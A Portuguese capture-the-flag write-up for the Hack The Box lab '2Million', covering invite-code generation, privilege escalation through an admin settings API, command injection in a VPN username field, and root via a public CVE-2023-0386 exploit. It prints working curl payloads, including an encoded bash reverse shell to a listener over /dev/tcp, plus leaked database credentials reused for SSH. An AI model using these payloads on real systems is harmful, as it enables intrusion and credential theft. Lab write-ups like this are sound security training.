


# 2Million

O ip fornecido era (10.129.128.246).
Fazendo um nmap, é possivel achar 2 portas abertas, uma http e outra ssh.



Acessando o site da porta HTTP, ele fala sobre o "Penetration Testing Labs" do HTB, em que a proposta é a seguinte:

"As an individual, you can complete a simple challenge to prove your skills and then create an account, 
allowing you to connect to our private network (HTB Labs) where several machines await for you to hack them. 
By hacking machines you get points that help you advance in the Hall of Fame."

Acessando o formulario de join que fica no endpoint /invite, primeiro eu preciso de um codigo de convite para criar uma conta.



Olhando o código fonte, achei um script chamado "inviteapi.min.js". Ele possuia um js obfucado: "eval(function(p,a,c,k,e,d)...."

Depois de desfazer a obfuscação com o chatGPT, o output é o seguinte

```javascript
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}
function makeInviteCode() {
    $.ajax({
    type: "POST",
    dataType: "json",
    url: '/api/v1/invite/how/to/generate',
    success: function (response) {
        console.log(response)
    },
    error: function (response) {
        console.log(response)
        }
    })
}
```
Percebo que existe esse endpoint "/api/v1/invite/how/to/generate" para o qual se eu fizer um POST consigo essa resposta:


que contem uma mensagem em rot13, pedindo pra eu fazer outro POST para o endpoint "/api/v1/invite/generate", que contem, finalmente o codigo convite.


Traduzindo de base64 para ascii, obtenho esse código: <mark>OXS2L-UXIYF-IEDKK-L9SXU</mark>
Usando-o, consigo criar uma conta para o Pen-testing labs.


Dentro desse site, existe uma aba "Access" que possui um tutorial para acessar o Pen-testing labs com o openvpn e tambem um botao para baixar o file do vpn,
que faz uma requisição para /api/v1/user/vpn/generate.

tentando acessar /api/v1, obtenho a listagem de rotas da API

```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

As rotas mais interessantes claramente são as de admin. Testando /api/v1/admin/auth com meu cookie de sessão atual, recebo {"message": false}, confirmando que meu usuário não é admin.

Tentando /api/v1/admin/vpn/generate via POST, recebo um 401 Unauthorized, também esperado.

Entao sobra /api/v1/admin/settings/update, que segundo a listagem precisa ser um PUT. Fazendo a requisição sem nada, recebo:

```json
{
  "status": "danger",
  "message": "Invalid content type."
}
```

Adicionando o header Content-Type: application/json, o erro muda para parâmetro faltando, e fala que falta um e-mail. Enviando meu e-mail, aparece outro parâmetro faltando, is_admin. Enviando is_admin: 1.

Consultando /api/v1/admin/auth novamente, agora recebo {"message": true}e com privilégios de admin, volto para /api/v1/admin/vpn/generate. Dessa vez, ao invés de 401, recebo um erro de parametro faltando novamente, agora username.
Enviando {"username": "KiwiS"}, a API gera e retorna o arquivo .ovpn do usuário KiwiS normalmente. Como essa é uma função exclusiva de admin e provavelmente usa alguma chamada de sistema (exec/shell_exec) para gerar o arquivo, decido testar uma injeção de comando no campo username.

\$ curl -X POST http://10.129.128.246/api/v1/admin/vpn/generate --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" \
--header "Content-Type: application/json" --data '{"username":"KiwiS;id;"}'

\>uid=33(www-data) gid=33(www-data) groups=33(www-data)

entao começo um listener com nc -lvp 1234 e envio um payload para reverse shell:

\$ curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"KiwiS;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzEyMzQgMD4mMQo= |
base64 -d | bash;"}'

O que está em base64 é o payload "bash -i >& /dev/tcp/10.10.14.4/1234 0>&1 


Enumerando o diretório web, encontro um arquivo .env com credenciais de banco de dados:

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

Verificando /etc/passwd, existe admin no sistema. Por reuso de senha, consigo logar via SSH com essas mesmas credenciais e pego a flag de usuário em /home/admin


Dentro de /var/mail/admin, há um e-mail interno mencionando que o kernel está desatualizado e vulnerável a uma falha relacionada a OverlayFS/FUSE. Pesquisando, identifico que se trata da CVE-2023-0386.

Baixo um exploit público para a CVE-2023-0386 (https://github.com/xkaneiki/CVE-2023-0386), transfiro para a máquina via scp, compilo com make all e executo.


com isso consigo a flag de root

